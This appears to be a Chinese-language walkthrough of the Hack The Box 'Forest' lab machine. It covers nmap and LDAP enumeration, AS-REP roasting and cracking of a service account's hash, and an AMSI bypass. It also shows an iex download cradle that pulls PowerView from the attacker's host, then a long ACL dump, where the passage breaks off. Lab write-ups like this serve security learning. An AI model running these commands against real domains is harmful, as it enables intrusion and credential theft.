



### nmap 扫描结果
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 09:57 EDT
Warning: 10.10.10.161 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.161
Host is up (0.41s latency).
Not shown: 49864 closed tcp ports (reset), 15648 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-05-27 14:06:01Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  tcpwrapped
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  unknown
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  msrpc        Microsoft Windows RPC
49945/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m43s, deviation: 4h02m32s, median: 6m41s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-05-27T07:07:05-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2022-05-27T14:07:05
|_  start_date: 2022-05-26T02:53:49

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 172.59 seconds
```

### 测试 LDAP
在测试`LDAP`的时候，可以发现能够匿名绑定到`LDAP`服务器，使用`ldapsearch`把所有内容保存下来
```
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161
```

这里使用`winldapsearch`来导出用户的数据，得到以下用户

```                                                                                                                      
┌──(kali㉿kali)-[~/go/bin]
└─$ ./windapsearch -d 10.10.10.161 -m users
dn: CN=SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c},CN=Users,DC=htb,DC=local
cn: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
sAMAccountName: SM_ca8c2ed5bdab4dc9b
userPrincipalName: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.local

dn: CN=SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9},CN=Users,DC=htb,DC=local
cn: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
sAMAccountName: SM_75a538d3025e4db9a
userPrincipalName: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.local

dn: CN=Guest,CN=Users,DC=htb,DC=local
cn: Guest
sAMAccountName: Guest

dn: CN=DefaultAccount,CN=Users,DC=htb,DC=local
cn: DefaultAccount
sAMAccountName: DefaultAccount

dn: CN=Exchange Online-ApplicationAccount,CN=Users,DC=htb,DC=local
cn: Exchange Online-ApplicationAccount
sAMAccountName: $331000-VK4ADACQNUCA
userPrincipalName: Exchange_Online-ApplicationAccount@htb.local

dn: CN=SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1},CN=Users,DC=htb,DC=local
cn: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}
sAMAccountName: SM_2c8eef0a09b545acb
userPrincipalName: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.local

dn: CN=DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852},CN=Users,DC=htb,DC=local
cn: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}
sAMAccountName: SM_681f53d4942840e18
userPrincipalName: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}@htb.local

dn: CN=Migration.8f3e7716-2011-43e4-96b1-aba62d229136,CN=Users,DC=htb,DC=local
cn: Migration.8f3e7716-2011-43e4-96b1-aba62d229136
sAMAccountName: SM_1b41c9286325456bb
userPrincipalName: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local

dn: CN=FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042,CN=Users,DC=htb,DC=local
cn: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042
sAMAccountName: SM_9b69f1b9d2cc45549
userPrincipalName: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.local

dn: CN=SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201},CN=Users,DC=htb,DC=local
cn: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}
sAMAccountName: SM_7c96b981967141ebb
userPrincipalName: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.local

dn: CN=SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA},CN=Users,DC=htb,DC=local
cn: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}
sAMAccountName: SM_c75ee099d0a64c91b
userPrincipalName: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.local

dn: CN=SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9},CN=Users,DC=htb,DC=local
cn: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}
sAMAccountName: SM_1ffab36a2f5f479cb
userPrincipalName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.local

dn: CN=HealthMailboxc3d7722415ad41a5b19e3e00e165edbe,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe
sAMAccountName: HealthMailboxc3d7722
userPrincipalName: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local

dn: CN=HealthMailboxfc9daad117b84fe08b081886bd8a5a50,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailboxfc9daad117b84fe08b081886bd8a5a50
sAMAccountName: HealthMailboxfc9daad
userPrincipalName: HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local

dn: CN=HealthMailboxc0a90c97d4994429b15003d6a518f3f5,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailboxc0a90c97d4994429b15003d6a518f3f5
sAMAccountName: HealthMailboxc0a90c9
userPrincipalName: HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local

dn: CN=HealthMailbox670628ec4dd64321acfdf6e67db3a2d8,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8
sAMAccountName: HealthMailbox670628e
userPrincipalName: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local

dn: CN=HealthMailbox968e74dd3edb414cb4018376e7dd95ba,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailbox968e74dd3edb414cb4018376e7dd95ba
sAMAccountName: HealthMailbox968e74d
userPrincipalName: HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local

dn: CN=HealthMailbox7108a4e350f84b32a7a90d8e718f78cf,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf
sAMAccountName: HealthMailbox7108a4e
userPrincipalName: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local

dn: CN=HealthMailbox0659cc188f4c4f9f978f6c2142c4181e,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e
sAMAccountName: HealthMailbox0659cc1
userPrincipalName: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local

dn: CN=HealthMailbox6ded67848a234577a1756e072081d01f,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailbox6ded67848a234577a1756e072081d01f
sAMAccountName: HealthMailbox6ded678
userPrincipalName: HealthMailbox6ded67848a234577a1756e072081d01f@htb.local

dn: CN=HealthMailbox83d6781be36b4bbf8893b03c2ee379ab,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab
sAMAccountName: HealthMailbox83d6781
userPrincipalName: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local

dn: CN=HealthMailboxfd87238e536e49e08738480d300e3772,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailboxfd87238e536e49e08738480d300e3772
sAMAccountName: HealthMailboxfd87238
userPrincipalName: HealthMailboxfd87238e536e49e08738480d300e3772@htb.local

dn: CN=HealthMailboxb01ac647a64648d2a5fa21df27058a24,CN=Monitoring Mailboxes,CN=Microsoft Exchange System Objects,DC=htb,DC=local
cn: HealthMailboxb01ac647a64648d2a5fa21df27058a24
sAMAccountName: HealthMailboxb01ac64
userPrincipalName: HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local

dn: CN=Sebastien Caron,OU=Exchange Administrators,OU=Information Technology,OU=Employees,DC=htb,DC=local
cn: Sebastien Caron
sAMAccountName: sebastien
userPrincipalName: sebastien@htb.local

dn: CN=Lucinda Berger,OU=IT Management,OU=Information Technology,OU=Employees,DC=htb,DC=local
cn: Lucinda Berger
sAMAccountName: lucinda
userPrincipalName: lucinda@htb.local

dn: CN=Andy Hislip,OU=Helpdesk,OU=Information Technology,OU=Employees,DC=htb,DC=local
cn: Andy Hislip
sAMAccountName: andy
userPrincipalName: andy@htb.local

dn: CN=Mark Brandt,OU=Sysadmins,OU=Information Technology,OU=Employees,DC=htb,DC=local
cn: Mark Brandt
sAMAccountName: mark
userPrincipalName: mark@htb.local

dn: CN=Santi Rodriguez,OU=Developers,OU=Information Technology,OU=Employees,DC=htb,DC=local
cn: Santi Rodriguez
sAMAccountName: santi
userPrincipalName: santi@htb.local

dn: CN=kuma,CN=Users,DC=htb,DC=local
cn: kuma
sAMAccountName: kuma

```

可以看到存在着几个账户，确定服务器上存在着`exchange`,接着继续再查看所有的数据

```
┌──(kali㉿kali)-[~/go/bin]
└─$ ./windapsearch -d 10.10.10.161 -m custom --filter "(objectclass=*)"
```

从导出的数据中进行分析，得知服务器上运行着一个服务并且存在服务账号

```
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
```

通过查询得到该软件的搭建文档 [https://docs.alfresco.com/process-services/latest/config/authenticate/](https://docs.alfresco.com/process-services/latest/config/authenticate/)，从文档中可以得知，在搭配`Kerberos`和`Active Directory`的时候，需要禁用`Kerberos`的预验证。


### ASREPRoast

因此，我们就可以使用`ASREPRoast`技术来破解该账户的密码

```
└─$ impacket-GetNPUsers -request -format hashcat -dc-ip 10.10.10.161 -no-pass -outputfile hash  htb.local/svc-alfresco
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ed46de274b28b7e2773c4ac0b4970cf0$e60ea6dd9ce905e6248f2eaf6856375d59ca13cdee0ace4ef252dd758a133eb8361f10fbf321d6459fad4f211e6c255d69b7ebf30e3f80aeb4555debbbf048d3eba89be711ae9f2673d571d227c5a2f7e1da764d692564ddc61f0db82b3f071d28c30d551ee1d045e6058d2175622f9a14525bb5c9488e351de6680eb39b8328f6f76ac2d03d20f55771bbb0be054026214359f179a49bd500996bd908125b34c620389a8776d83cdf99ace8dfac9b1380e4be4ee80ac5cb9ea3246e5bad7a21179f224b830d443cbb7d74660848f49721d811f7953c62c6aa825586db41aa0d56a363b81d6c

```

成功解出密码
```
┌──(kali㉿kali)-[~/Desktop/HTB/Active Directory 101/Forest]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:08 DONE (2022-05-27 11:36) 0.1189g/s 485821p/s 485821c/s 485821C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### 获得 user flag
使用得到的账号密码，登录445失败。接着尝试登录`winrm`，可以成功登录并在用户目录下得到`user.txt`

### 提权

有了用户名和密码，使用`Active Directory Explorer`来分析`ldap`数据，得知账户属于`service accounts`用户组，而`service accounts`用户组属于`Privileged IT Accounts`，`Privileged IT Accounts` 属于 `Account Operators`

```
svc-alfresco -> Service Accounts -> Privileged IT Accounts -> Account Operators
```


<div align=center>图1 Service Account Group</div>



<div align=center>图2 Privileged IT Accounts Group</div>


这说明了我们拥有操作用户的权限，但是无法操作管理员组和受保护的用户。同时注意到服务器上存在`exchange`相关的用户组，搭建过`exchange server`的都知道相关用户组拥有的权限比较高。所以可以从这里下手


<div align=center>图3 Exchange Security Groups</div>


这里使用`powerview`来查看`Exchange Windows Permissions`的信息

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> menu

   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (     '    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers
[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
[+] Success!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring('http://10.10.16.4/PowerView.ps1')

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local"}


AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ReadProperty
ObjectAceType          : Token-Groups-Global-And-Universal
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : None
BinaryLength           : 44
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-32-560
AccessMask             : 16
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : Send-To
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : None
BinaryLength           : 40
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-11
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3072663084-364016917-1341370565-512
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : None
BinaryLength          : 24
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-32-548
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericRead
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : None
BinaryLength          : 20
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-10
AccessMask            : 131220
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericRead
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : None
BinaryLength          : 20
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-11
AccessMask            : 131220
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : None
BinaryLength          : 20
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-18
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Self-Membership
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Group
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild
ObjectAceType          : Group
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 1
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : Delete
ObjectAceType          : All
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1119
AccessMask             : 65536
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Group
OpaqueLength           : 0

AceType               : AccessAllowed
ObjectDN              : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3072663084-364016917-1341370565-1104
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Change-Password
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 256
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 256
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild, DeleteChild, ListChildren
ObjectAceType          : ms-Exch-Active-Sync-Devices
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 7
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : inetOrgPerson
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild, DeleteChild, ListChildren
ObjectAceType          : ms-Exch-Active-Sync-Devices
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1118
AccessMask             : 7
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, InheritOnly, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild
ObjectAceType          : inetOrgPerson
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 1
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild
ObjectAceType          : Computer
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 1
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild
ObjectAceType          : Group
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 1
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild
ObjectAceType          : Organizational-Unit
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 1
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild
ObjectAceType          : User
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 1
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local
ActiveDirectoryRights  : CreateChild
ObjectAceType          : Contact
ObjectSID              : S-1-5-21-3072663084-364016917-1341370565-1121
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3072663084-364016917-1341370565-1121
AccessMask             : 1
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
